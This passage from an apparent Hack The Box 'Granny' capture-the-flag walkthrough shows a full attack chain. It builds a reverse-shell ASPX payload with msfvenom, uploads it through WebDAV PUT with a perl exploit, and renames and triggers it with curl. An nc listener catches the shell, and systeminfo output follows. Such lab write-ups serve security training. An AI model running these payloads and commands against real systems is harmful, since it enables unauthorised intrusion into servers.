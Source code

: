 Should be able to do the same but change the webshell payload to a reverse shell
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -o shell.aspx

perl 8806.pl granny.htb /                                                                                                          127 ⨯
write 'help' for get help list
$> put
[*] Insert a local file (ex: /root/file.txt): shell.aspx
HTTP/1.1 201 Created
Connection: close
Date: Sat, 01 Jan 2022 18:24:08 GMT
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Location: http://granny.htb/act.txt
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK

curl -X MOVE -H 'Destination:http://10.10.10.15/shell2.aspx' http://10.10.10.15/act.txt
curl http://10.10.10.15/shell2.aspx 
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.15] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
We are on the box!

## Privesc

systeminfo gives us a better picture of this *very* old machine.
```
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 36 Minutes, 35 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1999 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 745 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,290 MB
Page File: In Use:         180 MB
```